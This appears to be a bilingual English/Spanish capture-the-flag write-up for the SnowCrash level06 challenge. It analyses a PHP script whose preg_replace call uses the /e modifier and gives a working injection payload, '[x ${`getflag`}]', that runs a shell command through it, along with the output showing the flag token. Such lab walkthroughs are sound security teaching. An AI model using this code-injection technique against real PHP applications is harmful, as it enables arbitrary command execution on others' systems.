 ### LEVEL06

- We have one .php script
    ```php
    level06@SnowCrash:~$ cat level06.php
    #!/usr/bin/php
    <?php
    function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
    function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
    $r = x($argv[1], $argv[2]); print $r;
    ?>
    ```
- The function `y($m)` performs a substitution of "." by " x " and "@" by " y"
- The fucntion `x($y, $z)`
    ```php
    function x($y, $z) {
    $a = file_get_contents($y); // Reads the content of the file specified in $y
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); // Performs substitutions using a regular expression
    $a = preg_replace("/\[/", "(", $a); // Substitutes brackets `[` for parentheses `(`
    $a = preg_replace("/\]/", ")", $a); // Substitutes brackets `]` for parentheses `)`
    return $a; // Returns the modified content of the file.
    }
    ```
- The attack vector is in the line `$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`.
- The `/e` flag allows the regex to be executed as PHP code.
- We're going to attempt to inject `getflag`.
- We need a file for the script to read.
    1. It starts with `[x `
    1. Then the command we want to execute `... ${`getflag`}`
    1. And we close the bracket `]`
    ```bash
    echo '[x ${`getflag`}]' > /tmp/a
    ```
- We pass the file `/tmp/a` as a parameter to `level06`
    ```bash
    ./level06 /tmp/a
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
    in /home/user/level06/level06.php(4) : regexp code on line 1
    ```

---

### LEVEL06

- Tenemos un script en .php
    ```php
    level06@SnowCrash:~$ cat level06.php
    #!/usr/bin/php
    <?php
    function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
    function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
    $r = x($argv[1], $argv[2]); print $r;
    ?>
    ```
- La funcion `y($m)` hace una sustitición de "." por " x " y "@" por " y"
- La fucnion `x($y, $z)`
    ```php
    function x($y, $z) {
    $a = file_get_contents($y); // Lee el contenido del archivo especificado en $y
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); // Realiza sustituciones usando una expresión regular
    $a = preg_replace("/\[/", "(", $a); // Sustituye los corchetes `[` por paréntesis `(`
    $a = preg_replace("/\]/", ")", $a); // Sustituye los corchetes `]` por paréntesis `)`
    return $a; // Retorna el contenido modificado del archivo
    }
    ```
- El vector de ataque está en la línea `$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`
- El `/e` permite que se ejecute la regex como código php
- Vamos a intentar inyectar el `getflag`
- Necesitamos un archivo para que lo lea el script
    1. Que empiece por `[x `
    1. Luego el comando que queremos ejecutar `... ${`getflag`}`
    1. Y cerramos corchete `]`
    ```bash
    echo '[x ${`getflag`}]' > /tmp/a
    ```
- Le pasamos al `level06` como parametro el archivo `/tmp/a`
    ```bash
    ./level06 /tmp/a
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
    in /home/user/level06/level06.php(4) : regexp code on line 1
    ```
